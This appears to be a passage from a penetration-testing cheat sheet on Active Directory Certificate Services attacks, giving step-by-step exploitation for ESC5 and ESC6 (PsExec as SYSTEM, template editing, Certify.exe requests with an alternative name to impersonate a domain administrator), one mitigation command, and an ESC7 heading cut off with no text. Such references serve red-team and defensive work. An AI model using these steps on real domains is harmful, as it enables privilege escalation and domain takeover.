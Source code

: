 
## ESC5 - Vulnerable PKI Object Access Control

> Escalate the privileges from **Domain Administrator** in the child domain into **Enterprise Administrator** at the forest root.

**Requirements**:

* Add new templates to the "Certificate" Templates container
* "WRITE" access to the `pKIEnrollmentService` object

**Exploitation**:

* Use `PsExec` to launch `mmc` as SYSTEM on the child DC: `psexec.exe /accepteula -i -s mmc` 
* Connect to "Configuration naming context" > "Certificate Template" container
* Open `certsrv.msc` as SYSTEM and duplicate an existing template
* Edit the properties of the template to:
    * Granting enroll rights to a principal we control in the child domain.
    * Including Client Authentication in the Application Policies.
    * Allowing SANs in certificate requests.
    * Not enabling manager approval or authorized signatures.
* Publish the certificate template to the CA
    * Publish by adding the template to the list in `certificateTemplate` property of `CN=Services`>`CN=Public Key Services`>`CN=Enrollment Services`>`pkiEnrollmentService`
* Finally use the ESC1 vulnerability introduced in the duplicated template to issue a certificate impersonating an Enterprise Administrator.


## ESC6 - EDITF_ATTRIBUTESUBJECTALTNAME2 

> If this flag is set on the CA, any request (including when the subject is built from Active Directory) can have user defined values in the subject alternative name. 

**Exploitation**

* Use [Certify.exe](https://github.com/GhostPack/Certify) to check for **UserSpecifiedSAN** flag state which refers to the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag.
    ```ps1
    Certify.exe cas
    ```
* Request a certificate for a template and add an altname, even though the default `User` template doesn't normally allow to specify alternative names
    ```ps1
    .\Certify.exe request /ca:dc.domain.local\domain-DC-CA /template:User /altname:DomAdmin
    ```

**Mitigation**

* Remove the flag: `certutil.exe -config "CA01.domain.local\CA01" -setreg "policy\EditFlags" -EDITF_ATTRIBUTESUBJECTALTNAME2`


## ESC7 - Vulnerable Certificate Authority Access Control

**Exploitation**
